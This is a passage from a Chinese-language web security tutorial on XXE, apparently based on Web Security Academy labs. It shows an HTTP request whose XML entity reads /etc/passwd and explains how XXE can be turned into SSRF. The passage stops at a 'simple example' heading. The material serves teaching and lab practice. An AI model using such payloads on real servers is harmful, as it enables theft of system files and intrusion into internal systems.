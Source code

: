 ```bash
POST /product/stock HTTP/1.1
Host: 0a0700fe0358be4480ed6cc800d8007f.web-security-academy.net
Connection: close
Content-Length: 176
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a0700fe0358be4480ed6cc800d8007f.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a0700fe0358be4480ed6cc800d8007f.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=nKOc1GfbLdg5XX18iyjTCDqml2aKmoEN

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

[![](assets/1706060044-9617d47cfd81d8e02b9b1fc096d2f1d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123130620-259765d6-b9ad-1.png)

### XXE 进行 SSRF 攻击 (思路)

#### 基本介绍

XXE 攻击的另一个主要影响是它们可用于执行服务器端请求伪造 (SSRF)，这是一个潜在的严重漏洞，服务器端应用程序可能会被诱导向服务器可以访问的任何 URL 发出 HTTP 请求，要利用 XXE 漏洞执行 SSRF 攻击，您需要使用要针对的 URL 定义一个外部 XML 实体并在数据值中使用定义的实体，如果您可以在应用程序响应中返回的数据值中使用定义的实体，那么您将能够从应用程序响应内的 URL 查看响应，从而获得与后端系统的双向交互，如果没有，那么你将只能执行盲 SSRF 攻击

#### 简易案例
